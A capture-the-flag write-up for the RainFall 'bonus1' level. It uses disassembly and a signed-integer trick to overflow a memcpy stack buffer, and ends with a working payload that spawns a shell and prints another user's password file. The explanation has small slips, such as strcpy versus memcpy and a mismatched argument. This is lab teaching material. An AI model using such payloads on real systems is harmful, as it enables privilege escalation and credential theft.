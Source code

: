 # bonus1

## exploring the binary
```shell
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 phantom
bonus1@RainFall:~$
```
The binary accepts argument values and crashes when called with no arguments. Let's explore the functions:

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048424 <+0>:	push   %ebp
   0x08048425 <+1>:	mov    %esp,%ebp
   0x08048427 <+3>:	and    $0xfffffff0,%esp
   0x0804842a <+6>:	sub    $0x40,%esp
   0x0804842d <+9>:	mov    0xc(%ebp),%eax
   0x08048430 <+12>:	add    $0x4,%eax
   0x08048433 <+15>:	mov    (%eax),%eax
   0x08048435 <+17>:	mov    %eax,(%esp)
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    %eax,0x3c(%esp)
   0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    $0x1,%eax
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    0x3c(%esp),%eax
   0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:	mov    0xc(%ebp),%eax
   0x0804845d <+57>:	add    $0x8,%eax
   0x08048460 <+60>:	mov    (%eax),%eax
   0x08048462 <+62>:	mov    %eax,%edx
   0x08048464 <+64>:	lea    0x14(%esp),%eax
   0x08048468 <+68>:	mov    %ecx,0x8(%esp)
   0x0804846c <+72>:	mov    %edx,0x4(%esp)
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	movl   $0x0,0x8(%esp)
   0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:	movl   $0x8048583,(%esp)
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    $0x0,%eax
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
End of assembler dump.
```
We observe that <code>atoi()</code> is invoked on <code>av[1]</code> to convert it into an integer. The resultant value is then stored in memory, offset from the stack pointer, and compared against 9 using <code>jle</code>. Should the number exceed 9, <code>eax</code> is assigned the value 1, triggering a jump to the exit sequence. Otherwise, the <code>atoi()</code> result is multiplied by 4 and later in the function compared to <code>0x574f4c46</code> (1464814662). Another call we observe is to the <code>strcpy()</code> function, where a string from <code>av[2]</code> is combined with the multiplied number.

## buffer overflow
Another call we observe is to the <code>memcpy()</code> function, where a string from <code>av[2]</code> is combined with the multiplied number. Since the copying function doesn't inherently perform boundary checks, we decide that a <code>buffer overflow</code> attack is our way forward. We can determine the offset value as before, but we need to figure out how to significantly increase the value of the multiplied number, since the biggest value we can achieve is 36.

The maximum value for an unsigned 32-bit integer is 4294967295. Dividing this number by 4 gives us 1073741823. This may still be too large, so we decide to decrease the final number by 25.

``` shell
(gdb) run -1073741823 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
Starting program: /home/user/bonus1/bonus1 -1073741824 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
[Inferior 1 (process 5146) exited normally]
(gdb) run -1073741798 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
Starting program: /home/user/bonus1/bonus1 -1073741799 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'

Program received signal SIGSEGV, Segmentation fault.
0x39624138 in ?? ()
```
The final step is to invoke <code>/bin/bash</code>. We have already observed that the <code>execl()</code> function is called within the <code>main()</code> function, which piqued our interest. Just before this call, two immediate values are pushed onto the stack (<code>%esp</code>), which will ultimately initiate the shell for us:
``` shell
(gdb) x/s 0x8048580
0x8048580:	 "sh"
(gdb) x/s 0x8048583
0x8048583:	 "/bin/sh"
```
Due to this, our exploit jumps to the address <code>0x08048482</code> to continue executing the desired sequence.

## exploit
``` shell
bonus1@RainFall:~$ ./bonus1 -1073741798 $(python -c 'print "\x90" * 56 + "\x08\x04\x84\x82"[::-1]')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
